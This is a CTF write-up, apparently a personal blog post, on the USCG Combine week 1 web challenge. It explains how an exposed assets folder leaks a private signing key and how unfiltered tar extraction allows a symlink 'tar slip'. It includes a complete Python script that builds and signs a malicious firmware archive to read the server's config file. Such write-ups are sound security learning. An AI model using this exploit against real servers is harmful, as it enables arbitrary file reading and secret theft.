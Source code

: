 +++
title = "USCG Season IV Combine Web Week 1"
date = 2024-07-09

[taxonomies]
tags = ["write-up", "ctf", "uscg", "web exploitation"]
+++

Apart of the USCG Combine this season are weekly web exploitation challenges. This is a writeup for the first week.
<!-- more -->
---
# Week 1
{{ figure(src="/img/uscg24-web-week1/homepage.png", caption="Homepage for week 1's web challenge.") }}
## Challenge Description
For week 1 we are actually given a bit of a background:
> *The USCG factory has been hit by ransomware and we've lost access to a critical piece of machinery! There is a master reset code hidden in the configuration files which we could use to reset it back to the factory image but we can't seem to access it. We have access to a firmware update page but can't seem to be able to overwrite the existing firmware with something to give us back control. Please help!*

This is a relatively smaller web app, so there is not much to actually go over.

## Initial Analysis
I initially thought this was another crypto web challenge (there have been a lot of those recently it seems), so I spent some time trying to see if there is a flaw in the logic. However, it turns out that there is a simple solve, that involves no crypto exploitation.

The other thing of interest is that while the flag is defined in `config.py`, it is actually never referenced or used anywhere. This means that we will probably need to find some sort of arbitrary file read (like lfi), or RCE on the web app.

## Solution
This challenge involves exploiting a tar slip vulnerability to read arbitrary files on the server.

### Code Analysis
There are two main flaws with the application:
1. assets are made public, which includes uploaded firmware and keys (both public and private)
2. use of `TarFile.extractall` without a filter in `util.py`

The first flaw is made apparent in `main.py` with the line:
```py
app = Flask(__name__,static_url_path="/assets",static_folder="/app/assets")
```
In Flask, this will actually make anything in `/app/assets` publically accessible, assuming you know the path to it! so the private key can be accessed at the url `/assets/keys/private.pem`.

The second flaw is found in `util.py` with the line:
```py
TF.extractall(filepath)
```
which when checking the Python docs for `TarFile.extractall` ([found here](https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall)), it notes that untrusted archives should not be extracted unless inspected. This is due to something known as a zip slip/tar slip vulnerability, which allows for the inclusion of arbitrary files using symlinks.

Tar slip works since for tar files, we can actually include a symlink. So we could put a symlink `config.py` that links to `/app/application/config.py`, and include this in the tar file. This way, when the file is extracted by the server, it will actually stay a symlink on the server, so if someone access `/app/assets/firmware_updates/<random hex>/config.py`, it will actually access `/app/application/config.py`, since its a symlink!

The same vulnerability that allows us to access the private key, can be used to access the symlink since it is also in the public assets folder.

### Putting it into Action
In order to sign our malicious firmware, we will need the private key, which as mentioned before we can directly download at `/assets/keys/private.pem`. We can replicate the way the firmware is signed if we wish, but I have made a simple python script that will make the malicious firmware and sign it, shown below:

```py
import base64
import json
import tarfile
import io
from Crypto.PublicKey import RSA
from Crypto.Signature import pkcs1_15
from Crypto.Hash import SHA256

def create_firmware_package(private_key_path):
    # Create a tar file in memory
    tar_buffer = io.BytesIO()
    with tarfile.open(fileobj=tar_buffer, mode='w:gz') as tar:
        # Create a symlink "config.py" to "/app/application/config.py"
        link_info = tarfile.TarInfo("config.py")
        link_info.type = tarfile.SYMTYPE
        link_info.linkname = "/app/application/config.py"
        tar.addfile(link_info)

    # Encode the tar file content
    firmware = base64.b64encode(tar_buffer.getvalue()).decode()

    # Sign the firmware
    with open(private_key_path, 'r') as key_file:
        private_key = RSA.import_key(key_file.read())
    
    hash_obj = SHA256.new(firmware.encode())
    signature = pkcs1_15.new(private_key).sign(hash_obj)
    signature_b64 = base64.b64encode(signature).decode()

    # Create the package
    pkg = {
        "firmware": firmware,
        "signature": signature_b64
    }

    return json.dumps(pkg)

if __name__ == "__main__":
    private_key_path = "./private.pem"  # private key leaked from server

    pkg = create_firmware_package(private_key_path)

    with open("firmware.pkg", "w") as f:
        f.write(pkg)

    print("Firmware package created and saved as firmware.pkg")
```

After creating the malicious firmware, you can now upload it, keeping note of the path it extracted to.
{{ figure(src="/img/uscg24-web-week1/firmware-path.png", caption="The files in the tar (i.e. the symlink) are extracted to '/assets/firmware_updates/e5d104f5cab84c77e6ca52a23dd888d8', which is again, public.") }}

We can now simply go to `/assets/firmware_updates/e5d104f5cab84c77e6ca52a23dd888d8/config.py` and download it! Since it's a symlink, it will download the linked file instead, which is the servers config.py
{{ figure(src="/img/uscg24-web-week1/leaked-config.png", caption="Leaking the file was successful! Cropped flag since the challenge is still active as of writing.") }}

## Final Thoughts
This was a nice challenge, that almost scared me with crypto, but thankfully was just all web. I had previously exploited a zip slip vulnerability for Hack The Box, so this was familiar to me, but I hadn't done it with a TAR file.